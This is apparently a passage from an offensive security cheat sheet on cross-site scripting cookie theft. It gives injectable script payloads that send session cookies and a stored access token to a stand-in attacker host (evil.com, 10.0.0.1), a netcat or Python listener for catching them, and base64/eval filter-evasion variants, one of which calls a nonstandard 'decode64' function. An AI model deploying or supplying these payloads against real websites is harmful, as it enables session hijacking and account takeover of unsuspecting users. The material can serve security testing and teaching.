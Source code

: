 ### One-line Payload

```jsx
<script>window.location.href="https://evil.com/?c="+document.cookie</script>
```

We may retrieve the victim user cookie in our access log of `evil.com`.

### Another Approach

Inject the following payload into input fields in a target website.

```html
<script>fetch("http://evil.com/?"+btoa(document.cookie));</script>
<script>c=document.cookie;fetch(`http://evil.com/${c}`)</script>
<script>c=localStorage.getItem('access_token');fetch(`http://evil.com/${c}`)</script>

<!-- POST -->
<script>
    fetch("http://10.0.0.1/", {
        method: 'POST',
        mode: 'no-cors',
        body: document.cookie
    });
</script>
```

To retrieve data, start web server or listener in local machine.

```bash
sudo python3 -m http.server 80
# or
sudo nc -lvp 80
```

<br />

## Filter Evasion

### Base64 & Eval

Website may sanitize inputs to prevent from malicious code. However, we might be able to circumvent by modifying our code.  
For example, convert JavaScript code to Base64 string, then insert the base64 string into the **“eval”** function as below.

```bash
# ZmV0Y2goImh0dHA6Ly9ldmlsLmNvbS8iICsgZG9jdW1lbnQuY29va2llKTs= : fetch("http://evil.com/"+document.cookie);
<img src=x onerror="eval(decode64('ZmV0Y2goImh0dHA6Ly9ldmlsLmNvbS8iICsgZG9jdW1lbnQuY29va2llKTs='))">

# '(' => '\x28'
# ')' => '\x29'
<img src="x" onerror=eval.call`${"eval\x28atob`ZmV0Y2goImh0dHA6Ly9ldmlsLmNvbS8iICsgZG9jdW1lbnQuY29va2llKTs=`\x29"}`
```

